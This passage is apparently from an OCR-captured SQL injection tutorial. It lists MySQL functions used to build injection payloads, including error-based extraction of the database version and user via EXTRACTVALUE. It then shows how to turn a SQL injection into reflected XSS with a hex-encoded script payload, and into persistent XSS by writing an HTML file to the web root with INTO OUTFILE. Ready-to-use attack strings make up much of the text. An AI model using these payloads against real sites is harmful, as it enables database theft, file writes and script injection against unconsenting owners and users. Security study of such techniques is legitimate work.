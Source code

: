 Example: `SELECT CASE WHEN (1 = 1) THEN table_name ELSE false END from information_schema.tables`

### IF

Example: `SELECT if (1 = 1, table_name, '<h3> <font color = blue> Tables: </h3>') from information_schema.tables`

### EXTRACTVALUE

Syntax: `EXTRACTVALUE (xml_frag, xpath_expr)`

Example: `SELECT extractvalue (rand (), concat (0x7e, version (), 0x7e, user ()))`

With this in mind, we can mix between functions, different types of coding and different syntax in the sql sequences to create increasingly personalized payloads.


## Moving from sql Injection to other vulnerabilities

### From Sqli to XSS

When we have a page vulnerable to sql injection it is also vulnerable to sql injections, which can be from the vulnerable parameter but in this case we are going to use sql injection to inject xss, this can be in 2 ways:

#### Reflective XSS

In the vulnerable column we are going to inject the xss payload that we want.

"IMPORTANT" we have to move to hex.

For the example we are going to use this payload:

`<script> alert (" _ Y000! _ ") </script>`

Now in HEX:

`0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e`

Example:

`union + select + 1,0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e, 3 + - +`

In this way we are doing a reflective xss.

#### persistent XSS

For a persistent xss we need to have write permissions, everything is fine and the vulnerable page gives us permissions we have to do the following:

Using the INTO OUTFILE function we are going to write a file at the root of the page.

Example:

`union + select + 1, '<script> alert (" _ Y000! _ ") </script>', 3 + INTO + OUTFILE + 'path / name.html' + - +`

And with that we are going to create an .html file with our persistent XSS.
